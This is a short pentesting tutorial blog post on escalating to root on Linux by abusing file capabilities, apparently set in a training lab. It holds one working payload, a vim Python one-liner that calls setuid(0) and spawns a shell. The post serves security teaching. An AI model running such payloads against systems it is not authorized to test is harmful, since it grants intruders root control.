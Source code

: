 ```yaml
---
title: Capabilities 
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Linux Privilege Escalations]
tags: []  
---
```


# Capabilities 

System administrators can use `capabilities` to increase the privilege level of a process or binary. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

# Enumeration

We are going to exploit a capabilities to escalate our privilges to root. Let's check the available capabilities that are enabled.

![linpriv](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/linprivcap1.png)

As you can see, `/home/karen/vim` has capabilities enabled. Let's check GTFobins to see if there is a way to exploit it.

![linpriv](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/linprivcap2.png)

Well..we got it. We will follow the given procedure to exploit it and escalate to `root`.

# Exploitation

We will execute this payload on our target machine `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`, which if sucessful will allow us to escalate to root.

![linpriv](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/linprivcap3.png)

![linpriv](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/linprivcap4.png)

